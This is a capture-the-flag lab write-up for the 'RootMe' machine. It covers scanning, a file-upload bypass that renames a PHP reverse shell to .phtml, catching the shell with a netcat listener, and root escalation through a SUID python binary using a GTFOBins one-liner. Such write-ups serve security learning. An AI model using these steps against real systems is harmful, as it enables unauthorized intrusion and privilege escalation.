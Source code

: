 # RootMe


IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
dirsearch:
```
[22:18:58] 403 -   275B - /.php
[22:19:21] 301 -   306B - /css  ->  http://10.10.88.7/css/
[22:19:28] 200 -   616B - /index.php
[22:19:28] 200 -   616B - /index.php/login/
[22:19:30] 200 -   956B - /js/
[22:19:30] 301 -   305B - /js  ->  http://10.10.88.7/js/
[22:19:38] 301 -   308B - /panel  ->  http://10.10.88.7/panel/
[22:19:38] 200 -   732B - /panel/
[22:19:44] 403 -   275B - /server-status
[22:19:44] 403 -   275B - /server-status/
[22:19:50] 301 -   310B - /uploads  ->  http://10.10.88.7/uploads/
[22:19:50] 200 -   741B - /uploads/
```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Tested website uploads and found out it allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The file is renamed to .phtml to bypass upload restrictions on .php files, allowing us to upload and execute the PHP reverse shell.
![image](https://github.com/user-attachments/assets/b0e1c037-170e-4015-8f3b-68fd40c1035e)

- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file to achieve the reverse shell.

## Post-Exploit
- To find user.txt - ``` find / -iname “user.txt” 2>/dev/null ```


![image](https://github.com/user-attachments/assets/88ea8174-23d7-4b2c-8e80-95ead92d3539)


# Priviledge Escalation
Found interesting file with SUID permissions that will allow priviledge escalation by typing - ``` find / -user root -perm -4000 2>/dev/null ```

reference - https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html

![image](https://github.com/user-attachments/assets/40b3717f-6816-4dac-8153-f76aa1866927)

Escalated priviledges to be root user by typing - ``` ./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")' ```

reference - https://gtfobins.github.io/gtfobins/python/

-> All is left to do is cd into root and cat the file.

